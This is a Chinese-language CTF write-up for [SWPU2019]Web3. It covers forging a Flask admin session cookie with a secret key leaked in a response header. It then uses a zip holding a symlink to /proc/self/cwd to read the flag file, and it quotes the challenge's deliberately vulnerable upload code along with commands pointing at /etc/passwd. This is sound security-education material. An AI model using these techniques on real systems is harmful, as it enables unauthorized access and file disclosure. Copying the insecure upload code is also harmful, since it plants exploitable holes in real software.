# \[SWPU2019]Web3

## \[SWPU2019]Web3

## 考点

* Flask session伪造
* Linux命令
* `ln`命令新建"快捷方式"

## wp

标题flask-demo提示是个flask的框架

随便输入用户名和密码可以登录，然后回显用户名，这里可能有SSTI

![](<../../.gitbook/assets/image (8) (1) (1).png>)

点击upload提示`Permission denied!`，要进行flask session伪造，先试试SSTI，用户名输入`{{7*7}}`原样返回

![](<../../.gitbook/assets/image (7) (1).png>)

只能想其他办法获取`secret_key`，发现在404页面的返回头存在`Swpuctf_csrf_token`，为`U0VDUkVUX0tFWTprZXlxcXF3d3dlZWUhQCMkJV4mKg==`

![](<../../.gitbook/assets/image (1) (1) (1).png>)

解码后为`SECRET_KEY:keyqqqwwweee!@#$%^&*`，然后重新加密session，内容是`{'id': b'1', 'is_login': True, 'password': '111', 'username': 'admin'}`

```
flask-unsign --secret "keyqqqwwweee!@#$%^&*" --sign --cookie "{'id': b'1', 'is_login': True,
'password': '111', 'username': 'admin'}"
```

得到`eyJpZCI6eyIgYiI6Ik1RPT0ifSwiaXNfbG9naW4iOnRydWUsInBhc3N3b3JkIjoiMTExIiwidXNlcm5hbWUiOiJhZG1pbiJ9.Ymz6jQ.Hk-k8PvafeNbp8uRfcuWnWVjJhA`

修改cookie可以访问`/upload`页面

在注释中找到代码

```python
@app.route('/upload',methods=['GET','POST'])
def upload():
    if session['id'] != b'1':
        return render_template_string(temp)
    if request.method=='POST':
        m = hashlib.md5()
        name = session['password']
        name = name+'qweqweqwe'
        name = name.encode(encoding='utf-8')
        m.update(name)
        md5_one= m.hexdigest()
        n = hashlib.md5()
        ip = request.remote_addr
        ip = ip.encode(encoding='utf-8')
        n.update(ip)
        md5_ip = n.hexdigest()
        f=request.files['file']
        basepath=os.path.dirname(os.path.realpath(__file__))
        path = basepath+'/upload/'+md5_ip+'/'+md5_one+'/'+session['username']+"/"
        path_base = basepath+'/upload/'+md5_ip+'/'
        filename = f.filename
        pathname = path+filename
        if "zip" != filename.split('.')[-1]:
            return 'zip only allowed'
        if not os.path.exists(path_base):
            try:
                os.makedirs(path_base)
            except Exception as e:
                return 'error'
        if not os.path.exists(path):
            try:
                os.makedirs(path)
            except Exception as e:
                return 'error'
        if not os.path.exists(pathname):
            try:
                f.save(pathname)
            except Exception as e:
                return 'error'
        try:
            cmd = "unzip -n -d "+path+" "+ pathname
            if cmd.find('|') != -1 or cmd.find(';') != -1:
				waf()
                return 'error'
            os.system(cmd)
        except Exception as e:
            return 'error'
        unzip_file = zipfile.ZipFile(pathname,'r')
        unzip_filename = unzip_file.namelist()[0]
        if session['is_login'] != True:
            return 'not login'
        try:
            if unzip_filename.find('/') != -1:
                shutil.rmtree(path_base)
                os.mkdir(path_base)
                return 'error'
            image = open(path+unzip_filename, "rb").read()
            resp = make_response(image)
            resp.headers['Content-Type'] = 'image/png'
            return resp
        except Exception as e:
            shutil.rmtree(path_base)
            os.mkdir(path_base)
            return 'error'
    return render_template('upload.html')


@app.route('/showflag')
def showflag():
    if True == False:
        image = open(os.path.join('./flag/flag.jpg'), "rb").read()
        resp = make_response(image)
        resp.headers['Content-Type'] = 'image/png'
        return resp
    else:
        return "can't give you"
```

session中的username为admin，password为111。

那这段代码就在说，先根据session中的username和password，以及IP地址生成上传目录，然后上传一个zip压缩包，对其进行解压，解压的文件名不能包含`/`，获得的第一个文件以图片形式展示。在`showflag()`中说明了flag的位置，但是不知道绝对路径。

如果使用`ln -s /proc/self/cwd/flag/flag.jpg test`新建一个指向`flag`的链接，再用`zip`压缩`test`文件，是不是就可以访问`flag`了，但是如果直接压缩不会保存连接符，要用`zip -y`参数

所以本题就是

1. `ln -s /proc/self/cwd/flag/flag.jpg test`
2. `zip -ry test.zip test`

再上传即可

![](<../../.gitbook/assets/image (6).png>)

## 小结

1. Linux下`/proc/self/cwd/`会指向进程的当前目录
2. `ln -s /etc/passwd test` 相当于新建一个链接到`/etc/passwd`的文件`test`，对`test`使用`cat`等命令会自动指向`/etc/passwd`
